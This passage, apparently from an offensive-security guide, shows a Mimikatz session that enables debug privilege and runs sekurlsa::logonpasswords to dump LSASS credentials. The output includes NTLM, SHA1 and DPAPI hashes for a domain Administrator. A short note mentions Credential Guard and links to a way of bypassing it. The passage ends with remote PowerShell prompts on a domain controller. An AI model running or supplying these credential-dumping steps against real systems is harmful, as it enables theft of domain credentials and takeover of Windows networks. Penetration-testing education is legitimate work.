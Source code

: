 ```shell
C:\>.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 629376 (00000000:00099a80)
Session           : Interactive from 1
User Name         : Administrator
Domain            : CONTOSO
Logon Server      : DC01
Logon Time        : 03/05/2021 12:34:17
SID               : S-1-5-21-1372086773-2238746523-2939299801-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CONTOSO
         * NTLM     : b73fdfe10e87b4ca5c0d957f81de6863
         * SHA1     : 88cbc713492c32909ee5deddee08c7e31c70d716
         * DPAPI    : 0c1e1d360ebc8f790ff9577fcdb60d75
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CONTOSO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CONTOSO.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Notwithstanding, you should be aware that LSASS can be protected against credential extraction.This could be achieved by [Credential Guard](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-how-it-works), that uses the hypervisor technology to store the credentials in a safer place outside of the operative system. However [Credential Guard can be bypassed](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/).


[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname